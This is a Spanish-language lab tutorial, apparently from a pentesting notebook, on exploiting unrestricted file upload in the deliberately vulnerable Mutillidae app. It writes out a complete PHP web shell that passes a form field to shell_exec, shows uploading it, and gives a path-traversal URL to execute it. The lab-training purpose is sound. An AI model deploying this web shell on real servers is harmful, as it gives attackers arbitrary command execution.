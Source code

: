 # Unrestricted File Upload

Esta vulnerabilidad se solia llamar como `Local File Inclusion (LFI)` por que habia otro tipo de tecnica que se asemejaba a esta denominada `Remote File Inclusion (RFI)`, pero este tipo de tecnicas han ido desapareciendo con el tiempo ya que solo se podia hacer con codigo `PHP` se ha ido actualizando el lenguaje, las funciones que lo hacian dejan de hacerlo, por lo que ha dia de hoy se denomina como una subida de ficheros sin restriccion.

Incluso en la pagina no se llama `Local File Inclusion (LFI)` si no que se llama `Unrestricted File Upload (UFU)`.

En este caso en la pagina de `Mutillidae` en esa seccion consiste en que nos da una opcion la pagina de que podemos subir un fichero, pero como por dentro no lleva ningun tipo de sanitizacion por que esta mal programada, nosotros vamos a poder subir una `WebShell` al servidor.

Vamos a crear un archivo con la `WebShell`:

> shell.php

```shell
nano shell.php

#Dentro del nano

<form action="" method="post" enctype="application/x-www-form-urlencoded">
		<table style="margin-left:auto; margin-right:auto;">
			<tr>
				<td colspan="2">Please enter system command</td>
			</tr>
			<tr><td></td></tr>
			<tr>
				<td class="label">Command</td>
				<td><input type="text" name="pCommand" size="50"></td>
			</tr>
			<tr><td></td></tr>
			<tr>
				<td colspan="2" style="text-align:center;">
					<input type="submit" value="Execute Command" />
				</td>
			</tr>
		</table>
	</form>
	<?php
		echo "<pre>";
		echo shell_exec($_REQUEST["pCommand"]);
		echo "</pre>";
	?>
```

Por ejemplo esa, la misma que utilizamos para el caso anterior.

<figure><img src="../../.gitbook/assets/image (80).png" alt=""><figcaption></figcaption></figure>

Subimos el archivo de nuestra `WebShell`.

Y nos dice donde se ha depositado:

<figure><img src="../../.gitbook/assets/image (81).png" alt=""><figcaption></figcaption></figure>

Ahora haciendo `Path Traversal` podremos acceder al archivo que acabamos de subir:

```
URL = http://<IP>/mutillidae/src/index.php?page=/tmp/shell.php
```

Y con esto estariamos en ese `PHP` donde podremos ejecutar comandos, como en la anterior.
